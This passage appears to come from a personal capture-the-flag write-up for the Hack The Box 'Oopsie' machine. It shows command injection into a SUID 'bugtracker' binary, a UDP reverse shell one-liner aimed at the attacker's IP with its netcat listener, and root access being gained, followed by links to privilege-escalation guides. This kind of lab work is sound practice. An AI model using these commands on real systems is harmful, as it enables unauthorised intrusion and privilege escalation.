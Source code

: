 Okay, so my payload should look like this:

    ;<PAYLOAD>

Really easy.

Maybe I want to open a second reverse shell to get root shell.

Shellception...

Victim:

    cd /usr/bin
    ./bugtracker
    ;sh -i >& /dev/udp/10.10.14.165/1245 0>&1

Attacker:

    nc -u -lvp 1245

Weird. I used the payload for the victim but I didn't need to open `nc` on my end.

```
# whoami
whoami
root
```

```
# cat root.txt
cat root.txt
<no id for u :3>
```

Woohoo! It only took like 6+ days. Onto the next box, hopefully with less guide-checking.

## TODO/interesting

<https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>

<https://github.com/frizb/Linux-Privilege-Escalation>


I found this guide, which shows some more optimized techniques for exploiting and enumerating oopsie.

<https://artilleryred.medium.com/htb-starting-point-oopsie-1beb78365841>

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>
<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS>

<https://book.hacktricks.xyz/>